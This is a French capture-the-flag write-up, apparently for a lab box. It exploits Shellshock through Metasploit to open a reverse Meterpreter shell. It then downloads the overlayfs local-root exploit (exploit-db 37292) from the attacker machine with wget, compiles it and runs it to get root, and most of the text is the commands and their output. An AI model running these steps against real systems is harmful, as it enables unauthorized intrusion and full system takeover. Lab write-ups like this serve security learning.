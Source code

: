 ```
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set LHOST tun0
LHOST => MON-IP
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
[+] 10.10.189.81:80 - The target is vulnerable.
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > run

[*] Started reverse TCP handler on MON-IP:4444 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.189.81
[*] Meterpreter session 1 opened (MON-IP:4444 -> 10.10.189.81:48485) at 2023-10-09 10:52:34 -0400

meterpreter > shell
Process 1190 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Le 1er flag ce trouve dans le /home

# Privesc to ROOT !
En faisant les tests basiques, je constate que la version de linux est vraiment vielle : 
```
Linux version 3.13.0-32-generic
```
En recherchant sur exploit-db.com je trouve un exploit "overlayfs local root in ubuntu"
Je récupère donc les sources et je les télécharges ensuite sur le serveur. Vous allez me demander pourquoi, et vous faites bien !

Quand je compile sur ma kali, je ne peux pas executer le fichier sur le serveur car il va manquer des libs. Quand je le compile sur le serveur, tout fonctionne correctement.
Les librairies ne sont pas au même endroit sur ma kali. 

```
wget MON-IP/37292.c
```
Puis je le compile :
```
gcc 37292.c -o ofs
```
ensuite, plus qu'a l'executer :
```
/ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
Le flag ce trouve dans ***/root/root.txt***
